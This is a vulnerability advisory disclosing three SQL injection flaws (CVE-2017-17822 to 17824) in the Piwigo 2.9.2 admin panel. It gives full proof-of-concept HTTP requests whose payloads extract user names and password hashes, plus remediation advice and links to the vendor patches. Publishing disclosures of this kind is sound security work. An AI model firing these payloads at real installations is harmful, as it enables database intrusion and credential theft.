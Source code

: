 ```yaml
---
layout: post
title: CVE-2017-17822 Multiple SQL Injection Vulnerabilities in Piwigo 2.9.2
tagline: Piwigo 2.9.2 Vulnerability Report
tag: advisory
excerpt_separator: <!--more-->

---
```


It was identified that admin panel of Piwigo application is vulnerable to multiple [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) vulnerabilities. An attacker can exploit these vulnerabilities to gain access to the connected MySQL database.
<!--more-->	

### Affected Version : <=2.9.2

### Vulnerable Instances:

* /admin/user_list_backend.php, **[POST] sSortDir_0 [CVE-2017-17822]**
* /admin.php?page=batch_manager&mode=unit, **[POST] element_ids [CVE-2017-17823]**
* /admin.php?page=configuration&section=main, **[POST] order_by[] [CVE-2017-17824]**


### Proof of Concept:

Case 1: Users > Manage *Component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin/user_list_backend.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=user_list
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 782
Cookie: pwg_id=vbv2rpb1899a2rldng60bjfl27
Connection: close

sEcho=1&iColumns=7&sColumns=%2C%2C%2C%2C%2C%2C&iDisplayStart=0&iDisplayLength=10&mDataProp_0=0&sSearch_0=&bRegex_0=false&bSearchable_0=true&bSortable_0=true&mDataProp_1=1&sSearch_1=&bRegex_1=false&bSearchable_1=true&bSortable_1=true&mDataProp_2=2&sSearch_2=&bRegex_2=false&bSearchable_2=true&bSortable_2=true&mDataProp_3=3&sSearch_3=&bRegex_3=false&bSearchable_3=true&bSortable_3=true&mDataProp_4=4&sSearch_4=&bRegex_4=false&bSearchable_4=true&bSortable_4=true&mDataProp_5=5&sSearch_5=&bRegex_5=false&bSearchable_5=true&bSortable_5=true&mDataProp_6=6&sSearch_6=&bRegex_6=false&bSearchable_6=true&bSortable_6=true&sSearch=&bRegex=false&iSortCol_0=0&sSortDir_0=`and+extractvalue(0x0a,concat(0x0a,(select group_concat(username,password) from piwigo_users limit 0,1)))+--+`&iSortingCols=1
```

**RESPONSE**

![sql_1](/assets/images/piwigo2.9.2/sql_1.png)



Case 2: Photos > Batch Manager *Component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=batch_manager&mode=unit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pwg_id=jbhjl8k57er0lucpcfv015c4h1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 496

element_ids=12%2c13`)+union select group_concat(username,0x3a,password,0x3c62723e),2 from piwigo_users+--+`&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit
```

**RESPONSE**

![sql_2](/assets/images/piwigo2.9.2/sql_2.png)

Case 3: Configuration *Component*

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 415
Cookie: pwg_id=jbhjl8k57er0lucpcfv015c4h1; pwg_display_thumbnail=no_display_thumbnail
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=Just+another+Piwigo+gallery&page_banner=%3Ch1%3E%25piwigo_title%25%3C%2Fh1%3E%0D%0A%0D%0A%3Cp%3EWelcome+to+my+photo+gallery%3C%2Fp%3E&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file&order_by%5B%5D=`extractvalue(0x0a,concat(0x0a,(select user())))`&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

Result of above request is reflected at following URL which is accessible publicly.

* /piwigo/index.php?/categories/created-monthly-list

![sql_3](/assets/images/piwigo2.9.2/sql_3.png)


### Remediation:

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that make use of [Parameterized queries](http://php.net/manual/en/intro.pdo.php) and [Input Validation](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet) to sanitize user input before concatenating them with dynamically generated SQL queries.


### Vendor Patches:

The patches issued by vendor for above vulnerabilities are as follows :

* [Admin/Users](https://github.com/Piwigo/Piwigo/commit/33a03e9afb8fb00c9d8f480424d549311fe03d40)

* [Batch Manager](https://github.com/Piwigo/Piwigo/commit/f7c8e0a947a857ff5d31dafd03842df41959b84c)
* [Configuration](https://github.com/Piwigo/Piwigo/commit/91ef7909a5c51203f330cbecf986472900b60983)
